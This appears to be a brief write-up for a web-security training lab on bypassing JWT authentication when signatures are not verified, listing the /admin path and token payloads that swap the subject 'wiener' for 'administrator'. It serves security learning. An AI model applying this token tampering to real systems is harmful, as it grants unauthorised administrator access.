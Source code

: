 # JWT


### Lab: JWT authentication bypass via unverified signature


Payload
```
change path :  /admin

{"iss":"portswigger","exp":1760963935,"sub":"wiener"}

{"iss":"portswigger","exp":1760963935,"sub":"administrator"}



```


Payload
```
{"kid":"d6458e13-1d6f-4510-95ed-2a634838ee97","alg":"RS256"} 
```